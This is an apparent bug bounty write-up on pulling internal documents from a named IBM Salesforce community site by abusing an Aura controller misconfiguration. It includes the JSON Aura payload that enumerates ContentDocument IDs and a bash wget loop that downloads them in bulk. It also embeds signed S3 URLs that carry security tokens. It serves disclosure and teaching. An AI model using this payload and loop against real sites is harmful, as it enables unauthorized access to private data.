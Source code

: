 ```yaml
---
title: "How I was able to access IBM internal documents"
classes: wide
header:
  teaser: /assets/images/crackmes/crit.PNG
ribbon: DodgerBlue
description: "How to exploit Salesforce misconfiguration in the wild"
categories:
  - bugbounty
toc: true
---
```


Hi, today I will share how I was able to access internal data of https://weathercommunity.ibm.com using salesforce misconfiguration.

This write-up will depends n this great blog: https://web.archive.org/web/20210125200757/https://www.enumerated.de/salesforce
so please read it first then read this write-up.

After I read this blog, I wanted to exploit it in the wild so I now I wanted to see the subdomains which point to on of the following CNAMEs:

*.force.com

*.secure.force.com

*live.siteforce.com

I used this great tool https://github.com/yghonem14/cngo to get CNMAEs of all the websites that have program 
on hackerone through https://chaos.projectdiscovery.io/

I found this subdomain **weathercommunity.ibm.com** which pointing out to: **thercommunity.ibm.com.00de0000000avgcma2.live.siteforce.com**

I found an endpoint like:
     
![](https://images.squarespace-cdn.com/content/v1/5f7770a896185c777e49b396/1602179691337-ZXQYGZ11DJ60P6T3RURB/ke17ZwdGBToddI8pDm48kD6aNKZxB3DN5p6JsVrwzw1Zw-zPPgdn4jUwVcJE1ZvWQUxwkmyExglNqGp0IvTJZcY1lis3u7ujHaqKviAjfgBXb2P7ACMlJX44aBDLb--xfEjN8oatzV-2psMy5gKWM4rq4TCJTzAyL25jm0DX3aYLdXwLHXSvXM5NA8ifPwj1/aura_query.PNG?format=2500w)

then I sent this POST request to the Repeater and changed the ***Message*** parameter to:
```
{"actions":[{"id":"123;a","descriptor":"serviceComponent://ui.force.components.controllers.lists.selectableListDataProvider.SelectableListDataProviderController/ACTION$getItems","callingDescriptor":"UNKNOWN","params":{"entityNameOrId":"MARKER","layoutType":"FULL","pageSize":100,"currentPage":0,"useTimeout":false,"getCount":false,"enableRowActions":false}}]}

```
Replacing the ***MARKER*** string with:

***ContentDocument***

![](https://hackerone-us-west-2-production-attachments.s3.us-west-2.amazonaws.com/yhbkptntl3ejirmp120m63bww7qp?response-content-disposition=attachment%3B%20filename%3D%22sscx.png%22%3B%20filename%2A%3DUTF-8%27%27sscx.png&response-content-type=image%2Fpng&X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=ASIAQGK6FURQVWUV5OPW%2F20220304%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220304T203539Z&X-Amz-Expires=3600&X-Amz-Security-Token=IQoJb3JpZ2luX2VjEPr%2F%2F%2F%2F%2F%2F%2F%2F%2F%2FwEaCXVzLXdlc3QtMiJIMEYCIQCKkKDd%2FYAGDreUjy2PkCVyL4WkLDfQdTTWK%2FQQ%2BXV9dgIhAP4SLBQum5dkwla7qA0bALGXc3YLMn3%2FN5%2B4k4%2FnFNb%2BKvoDCGMQAhoMMDEzNjE5Mjc0ODQ5IgxVuaWbVMzYX%2FFfL7Iq1wMPdnxlUWbOCNct9xMVEH9uFip3Cq%2FZUlXK4B77TUcv5jwABvySCfeeihj1EhLuYl5%2FHWIFvcFJmz2I3KxTEhQ0%2FSdmpvmPDMJuX%2BJ7VBRTX90TG2LOtqeQo6Ahjw4qwMm2UwxvqRv0H%2BfcyBSaI8R7kCZSy4van5BLEcx0nDb%2BnvzekJTklkAOAck4EWN45ZhghIMEJz3W2gdnaSdGKKUekX30a6Mzn7%2BZyrAmEXLKNWqWrCHmr5z%2FAAHihOuqRXSJZaVO6vjW3Tnc1WxmBU4686gtnww41do6IWnHeHDpnMGqHU0zzmi3MU7wQlQH12TYux8s9Vo%2FX%2BANL4LlZbaaYjiSTzZN7S9Mv4MLkygTp4akIT1IXnSE0Njao8utUIT0hieUBCVGKw%2BpaOMJAkMIHQ%2BVToZNO13kP5gdy46BUoqJzqx2XykjU2gLpt2ScOnfCywoYyQxYkX%2FW4ndpHh5UThQaI47ySTKz79L8zg3%2B03WBxUKzzIynXiwfNsq1MY7wPJUrAdD4jDvwnvbwIrCtjJPLDTd4wu2GKNmep15vWBADnE21Rl%2FPgnGbdEQdWN%2FAcM5w3fskXZlwOTA%2F9FqYKvunPLzApawYmt3p%2FyRWZMVdC%2FRF2cw%2FKWJkQY6pAFllJRyfbRP6sIt%2BHrwTfQdejbA4WjdSyNC4Jsi9xsQS4EdtGOBD%2FzZ%2B3CEkgTXlHuCE5v0mQG9EcagoiB9viBTO7MF%2Bo4%2FPo7CEPfokbbjM2BNv2GoQt7WxPpGgVKojb76omwz7VVH1bx0ia2VId2Y7JZw3%2Bhh6OH2%2BqzokDzfJpDSAstF%2FTiA6zHYS1svfGO1yZIV9seNB0XtBjkFPBKo%2BcjGmg%3D%3D&X-Amz-SignedHeaders=host&X-Amz-Signature=ff19e6685aa66f4735dcd739fd13b496c5b21cf58a5f37667d26f4a4a11126d6)

See that there are more than 900 ID.
I extracted the ID value which started with 069 and made a simple bash script to download them one by one
through this endpoint /sfc/servlet.shepherd/document/download/$ID

https://weathercommunity.ibm.com/sfc/servlet.shepherd/document/download/ID

Example: 

https://weathercommunity.ibm.com/sfc/servlet.shepherd/document/download/0690h0000060wuHAAQ

```
while read i
do wget --no-check-certificate "https://weathercommunity.ibm.com/sfc/servlet.shepherd/document/download/$i"
done < $1

```

Sample of the internal images:

![](https://hackerone-us-west-2-production-attachments.s3.us-west-2.amazonaws.com/9p4dbjafg8rtktxubh37ohuyc14s?response-content-disposition=attachment%3B%20filename%3D%220690h000007Aly3AAC%22%3B%20filename%2A%3DUTF-8%27%270690h000007Aly3AAC&response-content-type=image%2Fpng&X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=ASIAQGK6FURQZYNIBA6H%2F20220304%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20220304T204708Z&X-Amz-Expires=3600&X-Amz-Security-Token=IQoJb3JpZ2luX2VjEPr%2F%2F%2F%2F%2F%2F%2F%2F%2F%2FwEaCXVzLXdlc3QtMiJIMEYCIQD37f9Upttrr7X0u6Lv9S58bOu6vWvhE5W9%2BqsSiAPkjQIhAKfSpjXF99Cv13J7IfRx2KBI3dOZ%2Bcw5BHX1tw9wq07%2FKvoDCGMQAhoMMDEzNjE5Mjc0ODQ5IgzJyEflzTkp01Ectdsq1wMY9x4YZa6ek3mI86HYnVRSL%2FG%2Bt1kJ%2BewpNkdxHW%2FCc4xWoQnS5n3Er0OEcodDpvldfFFDnlnww5yhAlcX1pUK8bfILR7b6XI3sr3WN16aNzzb5lOLSsoaMfYA2JGyRm9joy3TbXtQozCzmNT%2FNZ03iKBDc%2F5qxAKRa%2BAeLAGSyGeBbXitaOZ53QsWi3HWs7jKfSasgR%2F7N%2FpxdMsOn%2B02ufYcmakGBKwnzVqF2eaQtja75sd4I6aX3XxRaO4xdv4ESEMW6gWy2%2BWnT4p0dB3WdbKqzsImFJw5gLbpa9bPeyK0L2gLRdAjjhO%2FPUtx8fJ%2BekmnqFkXejWbrh5msiRvGL9KDITja4wurm5OvVwQo%2FwR16wNa0Dh7mcZiiDy2In2gPzHGDV4FxRW0NXY%2BcdhFLW9OMDVA%2Bd%2FsE2bcdKj3x9%2FlhMAz5Lgu%2BYnbQ8AWklSHBmP%2BUlsLDE%2Fk0NsTuzTwHSLHQ06zVGIM7V7TOZfjnaYbKUNF%2Bb1HCLJoxTYN3UqJC%2BWe8zE6Wi5gMFtFvAmc0oMr1jtfK3Un3dSLZGUxE9nx4A3RlLafBfxtiWCi2qa2rmVDrwIWvRctOx5bcFyNjzu1NAzZIx4ymQS3EqeZ1uKlp6y1t4w8KGJkQY6pAHsT0iIcDrjKOKLuVzwV%2BX%2BQZPYAAfyiSprxLAmJ6T8JhWjwc1VQtc7KEyFZKfq38antz5jzqT2sYLU3mku76D8AnCjurzoDRbRRbN4DxlQR3stAmWSam8w%2BKWmlCrgY10XCPxgmsAhhu7OsimMbMKcYdF%2BzmbC82gxo3we4RRkdHUMo1KMXR6wtHZaJ6ggJh5PA8ZcUqjCEO9gmTruotlPpHYHcA%3D%3D&X-Amz-SignedHeaders=host&X-Amz-Signature=c3f571905620666c9aac2c51b2aad54b409e3046da2614f705ed86c29e7e5fd2)

![](/assets/images/crackmes/crit.PNG)


***Final word:**
you will not understand anything if you did not read the blog first as he explained everything in it.
